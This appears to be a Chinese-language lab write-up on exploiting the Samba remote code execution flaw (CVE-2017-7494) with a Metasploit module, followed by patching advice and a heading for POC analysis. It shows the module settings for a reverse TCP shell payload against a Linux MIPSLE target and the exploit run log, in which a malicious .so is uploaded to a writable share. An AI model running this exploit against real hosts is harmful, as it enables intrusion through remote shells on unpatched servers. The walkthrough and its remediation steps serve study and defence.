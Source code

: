 ```
   SMB_SHARE_NAME                   no        The name of the SMB share containing a writeable directory


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.216.129  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   7   Linux MIPSLE
```
### 执行攻击
```
exploit

[*] Started reverse TCP handler on 192.168.216.129:4444
[*] 192.168.31.1:445 - Using location \\192.168.31.1\data\ for the path
[*] 192.168.31.1:445 - Retrieving the remote path of the share 'data'
[*] 192.168.31.1:445 - Share 'data' has server-side path '/tmp
[*] 192.168.31.1:445 - Uploaded payload to \\192.168.31.1\data\KcQiOcbk.so
[*] 192.168.31.1:445 - Loading the payload from server-side path /tmp/KcQiOcbk.so using \\PIPE\/tmp/KcQiOcbk.so...
[-] 192.168.31.1:445 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] 192.168.31.1:445 - Loading the payload from server-side path /tmp/KcQiOcbk.so using /tmp/KcQiOcbk.so...
[-] 192.168.31.1:445 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] Exploit completed, but no session was created.
```
虽然报错，但是查看共享文件夹/tmp却发现了生成了.so文件
知乎这篇[专栏](https://zhuanlan.zhihu.com/p/27129229)也有相同问题


# 修补方案

最安全的方法还是打补丁或者升级到Samba 4.6.4/4.5.10/4.4.14任意版本，可以参考 https://www.samba.org/samba/history/security.html

如果暂时不能升级版本或安装补丁，可以使用临时解决方案：
在smb.conf的[global]板块中添加参数：nt pipe support = no
然后重启smbd服务。

# 分析POC，查找原因
(来自[Wz'blog](https://www.testzero-wz.com/2018/07/20/Samba%E8%BF%9C%E7%A8%8B%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E5%88%86%E6%9E%90%20CVE-2017-7494/))

